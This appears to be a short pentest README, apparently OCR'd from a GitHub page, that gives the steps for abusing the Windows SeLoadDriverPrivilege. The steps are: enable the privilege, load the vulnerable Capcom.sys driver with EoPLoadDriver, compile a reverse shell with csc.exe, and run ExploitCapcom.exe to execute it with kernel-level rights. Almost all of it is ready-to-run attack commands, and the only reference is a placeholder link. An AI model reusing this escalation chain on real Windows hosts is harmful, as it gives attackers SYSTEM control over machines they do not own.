 # SeLoadDriverPriv
Some stuff that can be handy to abuse SeLoadDriverPriv

## Get Priv
In order to get the privilege, we need to spawn a high integrity process
..* Option 1: Load PowerShell or cmd.exe as Administrator (no Administrator group membership required!) - Lesson learned from Wh04m1
..* Option 2: Use elevate.exe to spawn cmd (https://github.com/PaoJiao/elevate)
```
elevate.exe cmd.exe
```

## Enable Privilege
```
. .\Enable-SeLoadDriverPrivilege.ps1
Enable-Privilege SeLoadDriverPrivilege
```

## Compile EoPLoadDriver
```
.\EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\pentest\SeLoadDriverPrivilege\Capcom.sys
```

## Generate Reverse Shell
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:exe /out:C:\pentest\SeLoadDriverPrivilege\rev.exe C:\pentest\SeLoadDriverPrivilege\rev.cs
```

## Exploit vulnerable driver
```
.\ExploitCapcom.exe C:\pentest\SeLoadDriverPrivilege\rev.exe
```

References

[https://www.google.com](https://www.google.com)
